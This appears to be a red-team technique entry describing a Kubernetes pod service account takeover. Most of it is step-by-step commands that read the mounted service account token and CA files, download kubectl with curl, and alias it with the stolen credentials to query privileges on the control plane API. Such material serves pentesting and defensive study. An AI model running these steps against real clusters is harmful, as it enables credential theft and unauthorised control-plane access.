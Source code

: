 # Pod service account takeover

**Description:** This entry describes how to use serviceaccount details that are mounted into a pod to run command on the control plane API

**Requirements:** kubectl

## Pod service accounts

```
mount | grep kube
```

Searching for the serviceaccount folder (Default: /run/secrets/kubernetes.io/serviceaccount)

Important files:
* ca.crt
* namespace
* token (service account token)

```
env

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=nginx-6799fc88d8-2pgh2
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
NGINX_VERSION=1.19.6
NJS_VERSION=0.5.0
PKG_RELEASE=1~buster
HOME=/root

```

Search environment variables for api endpoints

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Downloading a copy of [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/) (chmod u+x before running)

```
alias kubectl="<path_to_kubectl> --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://<api_server_ip>:<api_server_port>"
```

Setup kubectl command with discovered credentials from serviceaccount folder

```
kubectl auth can-i --list
```

List all privileges with current context

## References
* [Kubectl Reference Docs](https://kubernetes.io/docs/reference/generated/kubectl/kubectl-commands)